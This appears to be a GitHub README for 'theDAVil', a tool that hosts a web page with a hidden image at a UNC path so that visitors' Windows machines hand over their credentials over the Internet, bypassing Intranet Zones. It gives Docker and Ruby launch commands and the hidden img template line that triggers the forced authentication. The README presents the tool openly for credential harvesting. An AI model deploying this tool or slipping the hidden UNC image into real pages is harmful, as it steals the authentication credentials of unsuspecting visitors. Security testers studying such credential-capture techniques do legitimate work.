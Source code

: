 # theDAVil

Host a website with an image at a UNC path and get creds. Bypasses Intranet Zones and forces auth
over the Internet.

## Usage

**With Docker**
```sh
./theDAVil.sh 192.168.99.101 443`
```

**With Just Ruby**
```sh
bundle
ruby server.rb 192.168.99.101 443
```

## Customization

Replace the `views/index.erb` with your content. Make sure you keep the template line that looks
like this:

```erb
<img src="<%= "\\\\#{@host}@#{@port}\\logo.png" %>" style="display: none" />
```
